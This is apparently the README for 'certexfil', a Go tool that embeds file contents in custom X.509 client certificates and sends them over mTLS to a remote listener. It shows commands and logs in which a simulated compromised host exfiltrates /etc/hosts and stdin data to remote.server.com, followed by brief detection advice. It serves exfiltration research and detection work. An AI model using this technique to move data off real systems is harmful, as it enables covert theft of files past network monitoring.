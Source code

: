 # Exfiltration fun using X509 digital certificates

## Overview

I spend a ton of time on exfiltration topics and mitigation techniques. This is my very first attempt to try to learn Go by having a quick way to convert a payload (reading a file) and building it as part as a custom x509 digital certificate.

If you new to playing with certs, you will find the following interesting links that inspired me (must read first):

* https://medium.com/sitewards/the-magic-of-tls-x509-and-mutual-authentication-explained-b2162dec4401
* https://venilnoronha.io/a-step-by-step-guide-to-mtls-in-go
* https://tools.ietf.org/html/draft-ietf-oauth-mtls-14

Certexfil has three modes: CA generation, client and listener:

* You can use --ca to bootstrap and set a CA to create certificates (and authenticate them later)
* You can use --payload embed a payload (file) into a new client certificate then use mTLS against a listener service
* You can use --listen to start aservice using a certificate to accept valid mTLS clients and retrieve the embedded payload

## Usage

### Create CA + prepare your listener on your remote server

This is to create server_cert.pem and server_key.pem certificates to be used for mTLS (client and listener will use those:

```
somewhere$ certexfil -ca -ecdsa-curve P521 --host remote.host.com
```

Now make sure your have binary certexfil and the new ./CERTS directory on your remote server. Then, run the mTLS listener:

```
remoteserver$ ./certexfil --listen
```

### Client or (simulated) compromised host

Passing an output as payload:

```
06:46:00 jma@wintermute Go-Workspace → echo 'w00t w00t' | certexfil --host remote.server.com  --payload -
2019/05/31 18:48:27 [*] Reading from stdin..
2019/05/31 18:48:27 [D] Payload (raw)  --> w00t w00t...	(9 bytes)
2019/05/31 18:48:27 [D] Payload (Prepare()) --> �...		(31 bytes)
2019/05/31 18:48:27 [*] Generated custom cert with payload
Oo
```

Passing a file as payload:
```
06:52:14 jma@wintermute Go-Workspace → certexfil --host remote.server.com --payload /etc/hosts
2019/05/31 18:52:23 [*] Reading from file..
2019/05/31 18:52:24 [D] Payload (raw)  --> 127.0.0.1	...(225 bytes)
2019/05/31 18:52:24 [D] Payload (Prepare()) --> �...		(173 bytes)
2019/05/31 18:52:24 [*] Generated custom cert with payload
Oo

```


### As seen on the listener

```
○ → ./certexfil --listen
2019/05/31 22:51:01 [*] Starting listener..
2019/05/31 22:51:7 [*] Payload received: H4sIAAAAAAAC/yo3MChRABGAAAAA//8t0rpUCQAAAA==
2019/05/31 22:51:07 [*] Payload decoded: w00t w00t

2019/05/31 22:52:24 [*] Payload received: H4sIAAAAAAAC/0TNMa7DIAwG4DmcwtKbH4IMqcQNunXoBQgxDaoDCJOmx69o08abP1v/r/uTVFJJ3VFylubEVXxMS91tIVYsy1pRiD+4zgg+EaUtxBtQiMhgC8KEHIodqV0LnC+PAZzNb2h5LIzR0Cbk4f9Xs28pj9bdhUeljFHHS8QqvD9wcZZrLujDs3nfMptbopgm5B37L5a0ViwsXgEAAP//pJPCNuEAAAA=
2019/05/31 22:52:24 [*] Payload decoded: 127.0.0.1	localhost
127.0.1.1	wintermute

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

## Mitigations

* Fresh certificates ? you should look for those
* Large payload vs average certificates from same client (a decent firewall or BroIDS should be able to help)

## Todo

* Peer-review from a real Go developper.. I should stick to Python, I know.
* ~Set a DEBUG option, clean code
* merge client/listener in one
* automatic deployment of generated certs (DNS TXT? :P)
* Actually have crypto in cryptopayload module

## Contact

* @Sourcefrenchy
